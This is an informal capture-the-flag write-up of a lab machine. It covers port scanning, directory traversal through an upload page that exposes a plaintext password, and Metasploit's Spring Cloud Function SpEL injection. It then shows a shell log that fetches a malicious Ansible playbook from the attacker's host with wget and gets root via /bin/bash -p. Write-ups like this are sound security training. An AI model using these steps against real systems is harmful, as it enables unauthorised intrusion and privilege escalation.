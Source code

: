 Nmap scanning:

~~~
nmap 10.10.11.204 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-18 09:15 EDT
Nmap scan report for 10.10.11.204
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.03 seconds
~~~

![[inject.png]]

~~~
gobuster dir -u http://10.10.11.204:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
~~~


after do the dir enumuration we that the page the upload dir
http://10.10.11.204:8080/uplaod
upload the file in the upload page and capture the request by burp suite
![[Pasted image 20230624162735.png]]

we capture the request and find that the page is vuln to the  Directory traversal vuln

![[home_fli.png]]

in home dir there are two usr and enter inti the frank dir there we find the phil password

![[usr_pass.png]]
username and password
<username>phil</username>
DocPhillovestoInject123
![[springboot.png]]

after this this use spring cloud function  and try  exploit this with metasploit
with this exploit 

~~~
exploit/multi/http/spring_cloud_function_spel_injection
~~~


![[msf 1.jpeg]]

to get the sudo permission we type shell 

![[root.jpeg]]

user flag:922fce7e7e9097cf108ff424497a83984

~~~
meterpreter > cd home
meterpreter > shell
Process 104640 created.
Channel 4 created.
ls
frank
phil
su phil
Password: DocPhillovestoInject123
ls -la
total 16
drwxr-xr-x  4 root  root  4096 Feb  1 18:38 .
drwxr-xr-x 18 root  root  4096 Feb  1 18:38 ..
drwxr-xr-x  5 frank frank 4096 Feb  1 18:38 frank
drwxr-xr-x  6 phil  phil  4096 Jun 24 11:10 phil
cd phil
ls -la 
total 6104
drwxr-xr-x 6 phil phil    4096 Jun 24 11:10 .
drwxr-xr-x 4 root root    4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root root       9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil    3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil    4096 Feb  1 18:38 .cache
drwx------ 3 phil phil    4096 Jun 23 18:51 .gnupg
drwxrwxr-x 3 phil phil    4096 Jun 24 09:42 .local
-rw-r--r-- 1 phil phil     807 Feb 25  2020 .profile
-rwxrwxr-x 1 phil phil 3104768 Jun 24 11:00 pspy64
-rwxrwxr-x 1 phil phil 3104768 Jun 24 11:00 pspy64.1
drwxrwxr-x 2 phil phil    4096 Jun 23 21:28 .ssh
-rw-r----- 1 root phil      33 Jun 23 18:27 user.txt
-rw------- 1 phil phil    2860 Jun 24 09:42 .viminfo
cd opt/
bash: line 4: cd: opt/: No such file or directory
cd /opt
ls -la
total 12
drwxr-xr-x  3 root root 4096 Oct 20  2022 .
drwxr-xr-x 18 root root 4096 Feb  1 18:38 ..
drwxr-xr-x  3 root root 4096 Oct 20  2022 automation
cd automation
ls
tasks
cd tasks
ls -la
total 12
drwxrwxr-x 2 root staff 4096 Jun 24 17:22 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jun 24 17:22 playbook_1.yml
nano playbook_2.yml
Error opening terminal: unknown.
cd /tmp
ls -la
total 12288
drwxrwxrwt 19 root  root    12288 Jun 24 17:24 .
drwxr-xr-x 18 root  root     4096 Feb  1 18:38 ..
-rwxr-xr-x  1 frank frank     250 Jun 24 10:55 AzGtD
-rw-r--r--  1 frank frank     336 Jun 24 11:36 dquGM.b64
-rw-r--r--  1 frank frank      43 Jun 24 10:34 exploit.sh
drwxrwxrwt  2 root  root     4096 Jun 23 18:27 .font-unix
drwxr-xr-x  2 frank frank    4096 Jun 24 10:58 hsperfdata_frank
drwxrwxrwt  2 root  root     4096 Jun 23 18:27 .ICE-unix
-rwxr-xr-x  1 frank frank     250 Jun 24 11:36 lathF
-rwxr-xr-x  1 frank frank     250 Jun 24 16:26 luNVs
-rw-r--r--  1 frank frank     336 Jun 24 10:55 mSUiI.b64
-rwxr-xr-x  1 frank frank      54 Jun 23 18:33 poc.sh
-rwxrwxr-x  1 phil  phil  3104768 Jun 23 19:19 pruebaroy
-rwxrwxr-x  1 phil  phil  3104768 Jun 23 19:02 pspy64
-rw-rw-r--  1 phil  phil  3104768 Jun 23 19:02 pspy64.1
-rw-rw-r--  1 phil  phil  3104768 Jun 23 19:02 pspy64.2
-rw-r--r--  1 frank frank       0 Jun 24 13:08 pwned
-rw-r--r--  1 frank frank      55 Jun 23 18:32 rev.sh
-rw-r--r--  1 frank frank     336 Jun 24 16:26 RtGZT.b64
-rw-r--r--  1 frank frank       0 Jun 24 17:24 shell
-rw-r--r--  1 frank frank      42 Jun 23 21:19 shell.sh
drwx------  3 root  root     4096 Jun 23 18:27 systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-ModemManager.service-3hjsFg
drwx------  3 root  root     4096 Jun 23 18:27 systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-systemd-logind.service-nSY9xi
drwx------  3 root  root     4096 Jun 23 18:32 systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-systemd-resolved.service-omnqjh
drwx------  3 root  root     4096 Jun 23 18:27 systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-systemd-timesyncd.service-l3QtQg
drwx------  3 root  root     4096 Jun 23 22:14 systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-upower.service-BBiaFf
-rw-r--r--  1 frank frank     336 Jun 24 17:05 TAlwi.b64
drwxrwxrwt  2 root  root     4096 Jun 23 18:27 .Test-unix
drwx------  2 phil  phil     4096 Jun 23 18:51 tmux-1001
drwx------  3 frank frank    4096 Jun 24 10:58 tomcat.8080.13513602979617444320
drwx------  3 frank frank    4096 Jun 24 09:30 tomcat.8080.15667244264941750413
drwx------  3 frank frank    4096 Jun 23 18:27 tomcat.8080.9098981749498746902
drwx------  2 frank frank    4096 Jun 24 10:58 tomcat-docbase.8080.15310688241814284721
-rwxr-xr-x  1 frank frank      54 Jun 24 10:54 tota.sh
-rwxr-xr-x  1 frank frank     250 Jun 24 17:05 UiGVW
-rwxr-xr-x  1 frank frank     250 Jun 24 17:18 VCOVH
drwx------  2 root  root     4096 Jun 23 18:27 vmware-root_742-2991137376
-rw-r--r--  1 frank frank     336 Jun 24 09:26 Vuuuy.b64
-rw-r--r--  1 frank frank     336 Jun 24 12:18 WwoVk.b64
-rwxr-xr-x  1 frank frank     250 Jun 24 12:18 Wxueq
drwxrwxrwt  2 root  root     4096 Jun 23 18:27 .X11-unix
drwxrwxrwt  2 root  root     4096 Jun 23 18:27 .XIM-unix
-rwxr-xr-x  1 frank frank     250 Jun 24 09:26 XMCXY
-rw-r--r--  1 frank frank       0 Jun 23 18:35 XV
-rw-r--r--  1 frank frank     336 Jun 24 17:18 zdAqt.b64
wget http://10.10.14.240:8080/playbook_2.yml
--2023-06-24 17:28:37--  http://10.10.14.240:8080/playbook_2.yml
Connecting to 10.10.14.240:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 117 [application/octet-stream]
Saving to: ‘playbook_2.yml’

     0K                                                       100% 3.80M=0s

2023-06-24 17:28:39 (3.80 MB/s) - ‘playbook_2.yml’ saved [117/117]

/bin/bash -p

whoami
root
ls
AzGtD
dquGM.b64
exploit.sh
hsperfdata_frank
lathF
luNVs
mSUiI.b64
playbook_2.yml
poc.sh
pruebaroy
pspy64
pspy64.1
pspy64.2
pwned
rev.sh
RtGZT.b64
shell
shell.sh
systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-ModemManager.service-3hjsFg
systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-systemd-logind.service-nSY9xi
systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-systemd-resolved.service-omnqjh
systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-systemd-timesyncd.service-l3QtQg
systemd-private-e700e1cfb6b74dc0afe76f8e3408c354-upower.service-BBiaFf
tmux-1001
tomcat.8080.13513602979617444320
tomcat.8080.15667244264941750413
tomcat.8080.9098981749498746902
tomcat-docbase.8080.15310688241814284721
tota.sh
VCOVH
vmware-root_742-2991137376
Vuuuy.b64
WwoVk.b64
Wxueq
XMCXY
XV
zdAqt.b64
cat /root/root.txt
8fec796e536c2a7e051d4d0ab3c41239

~~~

 **YAML files containing a list of ordered tasks that should be executed on a remote server to complete a task or reach a certain goal**, such as to set up a LEMP environment.

![[flag 1.jpeg]]


root flag :8fec796e536c2a7e051d4d0ab3c41239

this my first machine!!!😁😁🔥🔥

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/

